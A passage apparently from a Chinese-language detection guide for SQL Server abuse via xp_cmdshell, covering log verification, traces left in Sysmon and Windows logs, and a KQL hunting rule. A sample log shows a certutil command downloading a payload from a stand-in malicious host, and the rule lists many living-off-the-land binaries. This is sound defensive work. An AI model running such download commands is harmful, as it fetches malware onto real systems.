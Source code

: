 3. **验证日志**：
   - 检查Sysmon日志（事件ID 1）或Windows安全日志（事件ID 4688），确认`sqlservr.exe`等进程是否启动了可疑命令。
   - 检查SQL Server日志，验证是否记录`xp_cmdshell`调用。

**注意**：此复现仅用于学习和测试目的，需在合法授权的测试环境中进行，切勿用于非法活动。参考：<https://zhuanlan.zhihu.com/p/25254794>

## 测试留痕

SQL Server滥用可能在以下日志中留下痕迹：
- **Sysmon日志**：
  - 事件ID 1：记录`sqlservr.exe`、`sqlagent.exe`等进程启动可疑命令（如`certutil`、`whoami`）。
  - 示例日志：
    ```plaintext
    Process Create:
    Image: C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Binn\sqlservr.exe
    CommandLine: certutil -urlfetch -f http://malicious.com/payload.exe
    ```
- **Windows安全日志**：
  - 事件ID 4688：记录进程创建和命令行参数。
- **SQL Server日志**：记录`xp_cmdshell`或其他高危命令的执行。
- **网络日志**：记录异常的SQL Server端口（1433）流量或文件下载请求。

## 检测规则/思路

**检测规则**  
通过分析Sysmon和Windows安全日志，检测SQL Server进程启动可疑命令的行为。以下是具体思路：

1. **日志分析**：
   - 收集Sysmon事件ID 1或Windows安全事件ID 4688，提取SQL Server相关进程（`sqlservr.exe`、`sqlagent.exe`、`sqlps.exe`、`launchpad.exe`）的命令行参数。
   - 检测可疑命令（如`certutil`、`whoami`）或高危工具调用。

2. **KQL规则（适用于Microsoft Defender或Azure Sentinel）**：
   ```kql
   DeviceProcessEvents
   | where Timestamp >= ago(10d)
   | where InitiatingProcessFileName in~ ("sqlservr.exe", "sqlagent.exe", "sqlps.exe", "launchpad.exe")
   | summarize tostring(makeset(ProcessCommandLine)) by DeviceId, bin(Timestamp, 2m)
   | where set_ProcessCommandLine has_any (
       "certutil", "netstat", "ping", "sysinfo", "systeminfo", "taskkill", "wget", "whoami",
       "Invoke-WebRequest", "Copy-Item", "WebClient", "advpack.dll", "appvlp.exe", "atbroker.exe",
       "bash.exe", "bginfo.exe", "bitsadmin.exe", "cdb.exe", "certutil.exe", "cl_invocation.ps1",
       "cl_mutexverifiers.ps1", "cmstp.exe", "csi.exe", "diskshadow.exe", "dnscmd.exe", "dnx.exe",
       "dxcap.exe", "esentutl.exe", "expand.exe", "extexport.exe", "extrac32.exe", "findstr.exe",
       "forfiles.exe", "ftp.exe", "gpscript.exe", "hh.exe", "ie4uinit.exe", "ieadvpack.dll",
       "ieaframe.dll", "ieexec.exe", "infdefaultinstall.exe", "installutil.exe", "makecab.exe",
       "manage-bde.wsf", "mavinject.exe", "mftrace.exe", "microsoft.workflow.compiler.exe",
       "mmc.exe", "msbuild.exe", "msconfig.exe", "msdeploy.exe", "msdt.exe", "mshta.exe",
       "mshtml.dll", "msiexec.exe", "msxsl.exe", "odbcconf.exe", "pcalua.exe", "pcwrun.exe",
       "pcwutl.dll", "pester.bat", "presentationhost.exe", "pubprn.vbs", "rcsi.exe", "regasm.exe",
       "register-cimprovider.exe", "regsvcs.exe", "regsvr32.exe", "replace.exe", "rundll32.exe",
       "runonce.exe", "runscripthelper.exe", "schtasks.exe", "scriptrunner.exe", "setupapi.dll",
       "shdocvw.dll", "shell32.dll", "slmgr.vbs", "sqltoolsps.exe", "syncappvpublishingserver.exe",
       "syncappvpublishingserver.vbs", "syssetup.dll", "te.exe", "tracker.exe", "url.dll",
       "verclsid.exe", "vsjitdebugger.exe", "wab.exe", "winrm.vbs", "wmic.exe", "xwizard.exe",
       "zipfldr.dll"
   )
   | sort by DeviceId, Timestamp asc
   ```
